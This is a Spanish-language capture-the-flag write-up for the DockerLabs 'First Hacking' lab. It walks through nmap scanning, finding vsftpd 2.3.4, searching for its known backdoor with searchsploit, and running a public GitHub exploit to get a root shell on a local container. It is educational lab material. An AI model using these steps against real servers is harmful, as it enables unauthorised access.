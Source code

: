 # Write Up First Hacking

**Dificultad:** Super fácil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh firsthacking.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta firsthacking, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir firsthacking-dockerlabs
❯ cd firsthacking-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 content
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 exploits
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 nmap
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...
 
     [*] IP Address: 172.17.0.2
     [*] Open ports: 21
 
[*] Ports copied to clipboard

❯ nmap -sCV -p21 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 19:17 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 21 (puerto FTP) es el vsftpd versión 2.3.4.

## Explotación
Una vez hecho el reconocimiento de puertos y servicios, nos damos cuenta que al buscar con searchsploit el servicio vsftpd con la versión 2.3.4 en searchsploit es un servicio vulnerable.
```
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

De esta manera, buscamos en github exploits para esta vulnerabilidad, y nos encontramos con este repositori, nos lo descargamos y lo ejecutamos (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).

```
❯ cd exploits
❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
❯ cd vsftpd_2.3.4_Exploit
❯ sudo python3 -m pip install pwntools
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```

Y ya tenemos acceso a la máquina y sin escalada de privilegios porque ya somos el usuario root!!

## Lecciones vistas
1. Escaneos con **nmap**
2. Uso de **searchsploit**
3. Busqueda de exploits en github